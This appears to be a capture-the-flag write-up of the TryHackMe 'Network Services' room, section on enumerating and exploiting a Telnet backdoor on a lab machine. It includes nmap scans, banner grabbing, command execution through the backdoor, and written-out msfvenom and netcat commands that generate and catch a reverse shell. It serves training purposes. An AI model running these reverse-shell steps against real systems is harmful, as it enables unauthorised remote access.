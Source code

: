 ![](https://miro.medium.com/max/1400/1*bGG7eew9hvMfGMBnv77LJg.png)

This is a writeup for [Network Services](https://tryhackme.com/room/networkservices) room on THM

**Enumerating Telnet**
======================

Spin up your target machine and let’s do a quick nmap scan to see what ports are open

```
#nmap -Pn -p- 10.10.37.92  
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org) ) at 2022-02-23 09:10 EST  
Nmap scan report for 10.10.37.92  
Host is up (0.42s latency).  
Not shown: 65534 closed tcp ports (reset)  
PORT     STATE SERVICE  
8012/tcp open  unknown
```

1.  How many **ports** are open on the target machine?

```
1
```

2\. What **port** is this?

```
8012
```

3\. This port is unassigned, but still lists the **protocol** it’s using, what protocol is this?

```
TCP
```

Rerunning the nmap scan without -p-

```
sudo nmap -Pn 10.10.37.92      
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org) ) at 2022-02-23 09:10 EST  
Nmap scan report for 10.10.37.92  
Host is up (0.42s latency).  
All 1000 scanned ports on 10.10.37.92 are in ignored states.  
Not shown: 1000 closed tcp ports (reset)Nmap done: 1 IP address (1 host up) scanned in 6.59 seconds
```

4\. Now re-run the **nmap** scan, without the **\-p-** tag, how many ports show up as open?

```
0
```

**Telnet Banner Grabbing**

If we try to connect to the IP and port the service will print the banner

```
sudo telnet 10.10.37.92 8012                  
\[sudo\] password for kali:   
Trying 10.10.37.92...  
Connected to 10.10.37.92.  
Escape character is '^\]'.  
SKIDY'S BACKDOOR. Type .HELP to view commands
```

5\. Based on the title returned to us, what do we think this port could be **used for**?

```
a backdoor
```

6\. Who could it belong to? Gathering possible **usernames** is an important step in enumeration.

```
skidy
```

Exploiting Telnet
=================

Read the room notes from task 7 👀

2\. Great! It’s an open telnet connection! What welcome message do we receive?

```
SKIDY'S BACKDOOR.
```

3.Let’s try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

```
N
```![](https://miro.medium.com/max/830/1*6uPqzgedPfaAVpuhxciLfg.png)

Start a tcpdump listener on your local machine.

**If using your own machine with the OpenVPN connection, use:**

*   `sudo tcpdump ip proto \\icmp -i tun0`

**If using the AttackBox, use:**

*   `sudo tcpdump ip proto \\icmp -i eth0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

![](https://miro.medium.com/max/1400/1*WyAPD2F8xt2bQQfnY1kRdQ.png)TCP DUMP

4\. Now, use the command **“ping \[local THM ip\] -c 1”** through the telnet session to see if we’re able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

```
Y
```

We’re going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here’s our syntax:

**“msfvenom -p cmd/unix/reverse\_netcat lhost=\[local tun0 ip\] lport=4444 R”**

\-p = payload

lhost = our local host IP address (this is **your** machine’s IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format

What word does the generated payload start with?

![](https://miro.medium.com/max/1400/1*3OlqaT6UkXU3uI0hCMxiAQ.png)

5\. What word does the generated payload start with?

```
mkfifo
```

6.  
Perfect. We’re nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

**“nc -lvp \[listening port\]”**

What would the command look like for the listening port we selected in our payload?

```
nc -lvp 4444
```

Now copy paste the payload generated by the msfvenom in the telnet session

.RUN <payload>

![](https://miro.medium.com/max/1400/1*c7QS94Lq6HhaKy-JYhQS4w.png)

And it will give you a reverse shell

![](https://miro.medium.com/max/1086/1*dwvcgk-cRHjWIMCcfRrAKA.png)

Cat flag.txt to answer the last question

Thank you for reading.
